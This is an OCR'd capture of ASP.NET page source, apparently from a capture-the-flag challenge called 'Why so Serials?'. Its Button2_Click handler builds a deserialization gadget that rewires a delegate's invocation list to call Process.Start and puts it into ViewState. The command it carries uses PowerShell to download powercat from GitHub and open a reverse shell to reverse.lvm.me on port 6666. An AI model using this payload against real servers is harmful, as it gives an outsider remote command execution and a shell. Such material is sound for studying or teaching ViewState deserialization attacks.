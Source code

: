 ```aspx
                }
            }
            catch (Exception ex)
            {
                Label1.Text = "ERROR: " + ex.Message.ToString();
            }
        } else {
            Label1.Text = "You have not specified a file.";
        }
    }
  protected void Button2_Click(object sender, EventArgs e) {
            Delegate da = new Comparison<string>(String.Compare);
            Comparison<string> d = (Comparison<string>)MulticastDelegate.Combine(da, da);
            IComparer<string> comp = Comparer<string>.Create(d);
            SortedSet<string> set = new SortedSet<string>(comp);
            set.Add("cmd");
            set.Add("/c " + "powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c reverse.lvm.me -p 6666 -e cmd");
            FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
            object[] invoke_list = d.GetInvocationList();
            // Modify the invocation list to add Process::Start(string, string)
            invoke_list[1] = new Func<string, string, Process>(Process.Start);
            fi.SetValue(d, invoke_list);
            ViewState["test"] = set;
    }
</script>

<!DOCTYPE html>
<html>
<head runat="server">
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <link rel="stylesheet" type="text/css" href="bootstrap.min.css">
    <title>Why so Serials?</title>
</head>
<body>
  <div class="container">
    <div class="jumbotron" style='background: #f7f7f7'>
        <h1>Why so Serials?</h1>
        <p>May the <b><a href='Default.aspx.txt'>source</a></b> be with you!</p>
        <br />
        <form id="form1" runat="server">
            <div class="input-group">
                <asp:FileUpload ID="FileUpload1" runat="server" class="form-control"/>
                <span class="input-group-btn">
                    <asp:Button ID="Button1" runat="server" OnClick="Button1_Click"
                 Text="GO" class="btn"/>
                  <asp:Button ID="Button2" runat="server" OnClick="Button2_Click" 
                    Text="TEST" class="btn"/>
                </span>
            </div>
            <br />
            <br />
            <br />
            <div class="alert alert-primary text-center">
                <asp:Label ID="Label1" runat="server"></asp:Label>
            </div>
        </form>
    </div>
  </div>
</body>
</html>
```